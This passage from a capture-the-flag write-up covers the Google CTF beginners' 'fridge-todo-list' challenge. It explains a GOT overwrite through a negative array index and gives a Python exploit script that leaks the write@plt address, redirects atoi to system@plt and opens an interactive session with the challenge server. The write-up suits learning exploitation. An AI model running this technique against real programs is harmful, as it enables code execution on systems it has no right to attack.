 Assuming the offsets remain unchanged, `system@plt` (`0x555555555070`) is at `0x2a` away from the unresolved address of `write@plt` (`0x55555555046`).

![GOT of atoi@plt](/assets/images/posts/google-ctf-beginners-quest-part-2/56f2ab77.png)

We can use `-4` as the index to write to the memory at `0x555555559088`, the GOT of `atoi@plt`, where `0x555555559140` is the address of `todos`. Note that we need eight junk bytes to jump over `0x555555559080` to write to `0x555555559088`.

Now that we've set the stage, let's proceed with the exploitation. To that end, I wrote this simple Python script, `exploit.py`. The script contains a telnet client at the end to interact with the program.

<div class="filename"><span>exploit.py</span></div>
```python
from socket import *
from struct import *
from telnetlib import *

s = socket(AF_INET, SOCK_STREAM)
s.connect(("fridge-todo-list.ctfcompetition.com", 1337))

def recv(e):
  r = ""
  while True:
    r += s.recv(1)
    if r.endswith(e):
      break
  return r

print recv(": ")
s.send("wintermuted\n")

print recv("> ")
s.send("2\n")
print recv("? ")
s.send("-6\n")  # read the GOT of write@plt and print its unresolved address
v = recv("> ")
v = v.split("\n")[0].split(" ")[-1]
v = v + "\0" * (8 - len(v))
write = unpack("<Q", v)[0]  # store unresolved write@plt address for offset calculation
print "\n*** Unresolved address of write@plt is at 0x%08x ***" % write

s.send("3\n")
print recv("? ")
s.send("-4\n")  # write to the GOT of atoi@plt
print recv("? ")
s.send("JUMPOVER" + pack("<Q", write + 0x2a)[:8] + "\n")
# 8 bytes to jump over; system@plt is at write+0x2a

t = Telnet()
t.sock = s
```